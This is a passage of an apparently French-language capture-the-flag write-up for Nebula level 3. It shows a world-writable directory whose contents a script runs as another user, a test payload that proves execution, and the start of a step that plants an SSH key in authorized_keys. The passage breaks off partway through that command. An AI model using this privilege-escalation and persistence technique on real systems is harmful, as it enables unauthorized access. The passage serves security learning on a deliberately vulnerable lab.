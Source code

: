 ## Level 3

```bash
level03@nebula:/home/flag03$ ls -l
total 1
drwxrwxrwx 2 flag03 flag03  3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03 98 2011-11-20 21:22 writable.sh
level03@nebula:/home/flag03$ ls -al writable.d/
total 0
drwxrwxrwx 2 flag03 flag03    3 2012-08-18 05:24 .
drwxr-x--- 3 flag03 level03 103 2011-11-20 20:39 ..
level03@nebula:/home/flag03$ cat writable.sh 
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

On a un dossier world-writable et un script bash qui va exécuter tout ce qu'il se trouve à l'intérieur. Le dossier est vide et il n'y a aucun signe visible que le script soit exécuté via une tache planifiée mais on va essayer :

```bash
level03@nebula:/home/flag03$ cat > /tmp/test
#!/bin/bash
touch /tmp/winner.txt
^C
level03@nebula:/home/flag03$ chmod 755 /tmp/test
level03@nebula:/home/flag03$ mv /tmp/test /home/flag03/writable.d/
```

Après quelques minutes c'est bien exécuté :

```bash
level03@nebula:/home/flag03$ ls -l /tmp/
total 3
-rw-rw-r-- 1 flag03  flag03   0 2023-01-31 01:06 winner.txt
```

On va faire de même mais en copiant une clé publique SSH à l'emplacement du `authorized_keys` :

```bash
level03@nebula:/home/flag03$ ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/level03/.ssh/id_rsa): /tmp/ctf_key
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /tmp/ctf_key.
Your public key has been saved in /tmp/ctf_key.pub.
The key fingerprint is:
45:85:90:5c:6f:37:ca:6f:17:7e:09:ae:8f:ee:69:ef level03@nebula
The key's randomart image is:
+--[ RSA 2048]----+
|       ..+oo.    |
|        o...     |
|          . o o  |
|         . o o . |
|        S   o. . |
|            ..o o|
|             .ooo|
|           .+. ..|
|          +*+E   |
+-----------------+
level03@nebula:/home/flag03$ cat > /tmp/test
#!/bin/bash
```